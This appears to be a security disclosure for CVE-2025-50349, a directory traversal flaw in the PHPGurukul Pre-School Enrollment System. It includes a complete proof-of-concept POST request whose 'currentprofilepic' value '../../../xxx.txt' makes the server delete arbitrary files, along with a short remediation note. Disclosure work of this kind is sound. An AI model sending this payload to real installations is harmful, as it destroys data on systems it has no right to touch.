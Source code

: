 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-4(update-teacher-pic.php)-CVE-2025-50349

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with currentprofilepic in the update-teacher-pic.php file 
   Lines 15 and 16 get the currentprofilepic parameter and concatenate it into oldprofilepic. currentprofilepic is not filtered.
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/8.png)   
   Line 40 unlink oldprofilepic, which leads to this directory traversal vulnerability
   ![9](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/9.png) 
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the update-teacher-pic.php page,   Teachers-Manage-Add Teacher-Update Profile Pic-Update Teacher Profile Pic
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/2.png)
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/3.png)
   ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/7.png)
  
   Intercept the data packet and find the problematic parameter currentprofilepic
   
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/4.png)

   Transformed into attack payload    


    POST /Pre-School-Enrollment-System-PHP/preschool/admin/update-teacher-pic.php?tid=1 HTTP/1.1
    Host: localhost
    sec-ch-ua-platform: "Windows"
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCOslMZHmxE3UWS8E
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-Site: same-origin
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/update-teacher-pic.php?tid=1
    Accept-Language: zh-CN,zh;q=0.9
    Accept-Encoding: gzip, deflate, br, zstd
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    Upgrade-Insecure-Requests: 1
    sec-ch-ua-mobile: ?0
    Sec-Fetch-Mode: navigate
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    Origin: http://localhost
    Sec-Fetch-Dest: document
    Cache-Control: max-age=0
    Sec-Fetch-User: ?1
    Content-Length: 5637583

    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="currentprofilepic"

    ../../../xxx.txt
    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="profilepic"; filename="804a28a9c5be300aafa9f83527956d13.jpeg"
    Content-Type: image/jpeg


    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="submit"


    ------WebKitFormBoundaryCOslMZHmxE3UWS8E--


   Create xxx.txt test file in  D:\phpstudy_pro\WWW\Pre-School-Enrollment-System-PHP
      ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/5.png)

   Send payload, xxx.txt file has been deleted   
   ![8](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/6.png)   
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
